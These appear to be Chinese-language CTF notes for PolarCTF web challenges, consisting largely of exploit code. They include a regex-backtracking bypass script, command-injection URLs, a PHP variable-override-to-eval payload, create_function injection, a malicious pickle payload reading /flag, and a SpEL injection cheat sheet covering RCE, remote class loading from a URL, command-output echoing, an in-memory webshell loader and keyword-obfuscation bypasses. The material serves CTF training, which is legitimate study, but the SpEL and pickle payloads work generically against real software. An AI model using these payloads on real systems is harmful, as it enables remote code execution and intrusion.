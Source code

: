 # web
### swp
递归绕过正则限制
```python
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://d9d00980-d2fc-412e-b6cc-b6db2562eafb.www.polarctf.com:8090/index.php', data=data, allow_redirects=False)
print(res.content)

```

### 简单rce
$IFS空格绕过+sort读取文件

### 上传


### 非常好绕的命令执行

hex2bin转换
`http://1ae67e55-509c-49e4-9bf7-a04be9788ca5.www.polarctf.com:8090/?args1=hex2bin&args2='73797374656d'&args3='ls'`

### php是世界上最好的语言
变量覆盖
```php
<?php
//flag in $flag
highlight_file(__FILE__);
include("flag.php");
$c=$_POST['sys'];
$key1 = 0;
$key2 = 0;
if(isset($_GET['flag1']) || isset($_GET['flag2']) || isset($_POST['flag1']) || isset($_POST['flag2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($flag1 == '8gen1' && $flag2 == '8gen1') {
    if(isset($_POST['504_SYS.COM'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\?/", $c)){
         eval("$c");  

    }
}
}
?>
```

```http
http://www.xxx.com?_POST[flag1]=8gen1&_POST[flag2]=8gen1
post:sys=echo($flag);&504[SYS.COM=a
```

### \$\$
`$GLOBALS`全局变量
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211154038.png)


### 某函数的复仇
create_function注入

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211163836.png)

```php
$shaw('',$root);


root=}system('more /flag');/*
shaw=create_function
```


### veryphp
call_user_func
调用类的方法
`myans=qwq::oao`

### unpickle
#pickle 

```python
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        return (eval,("__import__('os').popen('cat /flag').read()",))


e = exp()
s = pickle.dumps(e)#将获取的对象序列化
user = base64.b64encode(s).decode()##将序列化的对象使用base64加密
print(user)#输出加密后的序列化对象
```

### upload tutu
使用`fastcoll`生成俩个hash值相同的文件,在`D:\CTF_Tools\fastcoll_v1.0.0.5.exe\fastcoll_v1.0.0.5.exe`

`fastcoll_v1.0.0.5.exe -p test.php -o test1.php test2.php`


``
### ezjava
Spel表达式注入
```java
//简单rce
new java.lang.ProcessBuilder("calc").start()
T(java.lang.Runtime).getRuntime().exec('calc')
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);")

//远程类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass("evil").getConstructors()[0].newInstance()

new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass("evil").newInstance()



//回显
new java.util.Scanner(new java.lang.ProcessBuilder("ls", "app").start().getInputStream(), "GBK").useDelimiter("asdasdasdasd").next()

new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()

//需要注册一个response上下文
#response.addHeader('x-cmd',new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine())


//内存🐎
T(org.springframework.cglib.core.ReflectUtils).defineClass('InceptorMemShell',T(org.springframework.util.Base64Utils).decodeFromString(''),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()

//关键字绕过
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),newString[]{"cmd","/C","calc"})

''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("ex"+"ec",T(String[])).invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("getRu"+"ntime").invoke(null),'calc')
```

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-09   23:22